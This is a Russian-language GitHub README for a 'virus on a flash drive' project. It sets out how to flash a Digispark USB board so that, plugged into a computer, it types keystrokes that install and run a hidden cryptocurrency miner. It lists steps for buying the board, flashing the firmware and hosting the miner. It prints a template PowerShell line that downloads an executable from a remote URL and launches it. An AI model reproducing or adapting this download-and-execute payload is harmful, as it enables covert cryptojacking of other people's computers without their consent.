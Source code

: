 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем билдер для майнера и загружаем на github (инструкция)
- Редактируем под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)

